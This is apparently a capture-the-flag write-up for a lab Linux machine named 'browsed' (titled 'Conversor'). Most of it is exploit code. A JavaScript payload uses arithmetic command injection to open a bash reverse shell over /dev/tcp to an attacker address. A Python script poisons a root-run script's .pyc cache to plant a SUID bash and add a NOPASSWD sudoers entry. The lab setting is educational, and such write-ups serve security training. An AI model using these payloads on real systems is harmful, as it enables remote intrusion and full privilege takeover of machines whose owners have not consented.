


---

# Conversor (Medium): 10.129.X.X


---

## Quick overview

A Linux machine (Medium) that presented the following path:

1.  → → **USER.TXT**
2.  → → **ROOT.TXT**

---

## USER.TXT

### Enumeration

We start with a nmap enummeration that will help us to discover p22 and p80.

We try to get p80 via the IP adresse or browsed.htb (by ading it in /etc/hosts)

We will see an interessting entry point Upload Extention, by trying to upload of the samples (i choosed Fontify and i will used by all the writeup).

If we scan the displayed logs, we will find browsedinternals.htb, by adding it in /etc/hosts, we will find that host a gitea.



### Lets go

By analysing the file routines.sh in MarkdownPreview, we will discover arithmetic command injection vulnerability caused by lack of input validation, that we will exploit it for a reverse shell by the following script:

```js
const TARGET = "http://localhost:5000/routines/";
const ATTACKER = "10.10.x.x";
const PORT = "4444";  // Or any port you want

// Reverse shell payload
const cmd = `bash -c 'bash -i >& /dev/tcp/${ATTACKER}/${PORT} 0>&1'`;
const b64 = btoa(cmd);
const sp = "%20"; // URL encoded space

// The Arithmetic Injection: a[$(echo base64 | base64 -d | bash)]
const exploit = "a[$(echo" + sp + b64 + "|base64" + sp + "-d|bash)]";

// Execute
fetch(TARGET + exploit, { mode: "no-cors" });
```

we replace it in content.js and zip the sample and upload it, in the same we launche netcat in our machine


and we are in with larry user, for a better persistance we can take the ssh key and reconnected with it 

---

## ROOT.TXT

### Sudo  

By trying using sudo -l we will find     

(root) NOPASSWD: /opt/extensiontool/extension_tool.py

### Exploiting the PY Cache

so by analysing extensiontool we will find that there is a script that compile the py and launche it from the cache.

so we will creat a script that generate a malicious py cache.

then launche it via the extention tool.

```python
#!/usr/bin/env python3
import os
import py_compile
import shutil
import sys

# Paths
ORIGINAL_SOURCE = "/opt/extensiontool/extension_utils.py"
ORIGINAL_PYC = "/opt/extensiontool/__pycache__/extension_utils.cpython-312.pyc"
TEMP_SOURCE = "/tmp/evil_utils.py"

# Get original stats
orig_size = os.path.getsize(ORIGINAL_SOURCE)
orig_mtime = os.path.getmtime(ORIGINAL_SOURCE)
print(f"[*] Original size: {orig_size} bytes")

# Malicious code - payload in validate_manifest (called with --ext)
malicious_code = '''import os
import json
import subprocess
import shutil
from jsonschema import validate, ValidationError

MANIFEST_SCHEMA = {
    "type": "object",
    "properties": {
        "manifest_version": {"type": "number"},
        "name": {"type": "string"},
        "version": {"type": "string"},
        "permissions": {"type": "array", "items": {"type": "string"}},
    },
    "required": ["manifest_version", "name", "version"]
}

def validate_manifest(path):
    """This is called when processing an extension"""
    print("[+] Validating manifest (MALICIOUS VERSION)")
    
    # === ROOT PAYLOAD ===
    # 1. Create SUID bash
    os.system("cp /bin/bash /tmp/rootbash && chmod 4755 /tmp/rootbash")
    
    # 2. Add user to sudoers
    os.system("echo 'larry ALL=(ALL) NOPASSWD:ALL' >> /etc/sudoers 2>/dev/null")
    
    # 3. Create test file
    with open("/tmp/pwned.txt", "w") as f:
        f.write(f"Pwned by UID: {os.getuid()}, EUID: {os.geteuid()}\\n")
    
    # 4. Reverse shell (optional)
    # os.system("bash -c 'bash -i >& /dev/tcp/10.10.14.29/4444 0>&1' &")
    
    # Keep original functionality
    with open(path, 'r', encoding='utf-8') as f:
        data = json.load(f)
    try:
        validate(instance=data, schema=MANIFEST_SCHEMA)
        print("[+] Manifest is valid.")
        return data
    except ValidationError as e:
        print("[x] Manifest validation error:")
        print(e.message)
        exit(1)

def clean_temp_files(extension_dir):
    print("[+] Cleaning temp files")
    exit(0)
'''

# 1) Pad to exact original size
current_size = len(malicious_code.encode('utf-8'))
padding_needed = orig_size - current_size
print(f"[*] Current size: {current_size} bytes")
print(f"[*] Padding needed: {padding_needed} bytes")

if padding_needed > 0:
    # Add padding with comments
    malicious_code += "\n#" + "P" * (padding_needed - 2) + "#\n"
elif padding_needed < 0:
    print("[!] Code too large, using simpler version...")
    malicious_code = '''import os
def validate_manifest(x): 
    os.system("cp /bin/bash /tmp/rootbash && chmod 4755 /tmp/rootbash")
    return {"name":"x","version":"1","manifest_version":3}
def clean_temp_files(x): 
    exit(0)'''
    # Recalculate
    current_size = len(malicious_code.encode('utf-8'))
    padding_needed = orig_size - current_size
    if padding_needed > 0:
        malicious_code += "#" + "X" * (padding_needed - 1)

# Write payload
with open(TEMP_SOURCE, "w") as f:
    f.write(malicious_code)
print(f"[*] Written to {TEMP_SOURCE}")

# 2) Match timestamps
os.utime(TEMP_SOURCE, (orig_mtime, orig_mtime))
print("[*] Timestamps matched")

# 3) Compile malicious bytecode
print("[*] Compiling...")
try:
    py_compile.compile(TEMP_SOURCE)
except Exception as e:
    print(f"[!] Compilation error: {e}")
    sys.exit(1)

# Get compiled .pyc path
temp_dir = os.path.dirname(TEMP_SOURCE)
pyc_name = os.path.basename(TEMP_SOURCE).replace('.py', '.cpython-312.pyc')
temp_pyc = os.path.join(temp_dir, "__pycache__", pyc_name)

print(f"[*] Compiled to: {temp_pyc}")

# 4) Poison the cache
print(f"[*] Replacing {ORIGINAL_PYC}")
try:
    # Try to remove existing first
    if os.path.exists(ORIGINAL_PYC):
        os.remove(ORIGINAL_PYC)
    
    shutil.copy2(temp_pyc, ORIGINAL_PYC)
    
    # Match timestamp
    os.utime(ORIGINAL_PYC, (orig_mtime, orig_mtime))
    
    print("[+] Poisoned .pyc injected successfully!")
    
except PermissionError as e:
    print(f"[!] Permission denied: {e}")
    print("[!] Cannot write to .pyc. Checking directory permissions...")
    sys.exit(1)

print("\n" + "="*50)
print("[*] EXPLOIT READY!")
print("[*] Steps to get root:")
print("1. python3 xpl.py")
print("2. sudo /opt/extensiontool/extension_tool.py --ext Fontify")
print("3. /tmp/rootbash -p")
print("="*50)

# Verify the file was created
if os.path.exists("/tmp/rootbash"):
    print("[+] /tmp/rootbash already exists!")
else:
    print("[*] /tmp/rootbash will be created when you run step 2")
```

by lquching the script and following the script we can get the root:



---


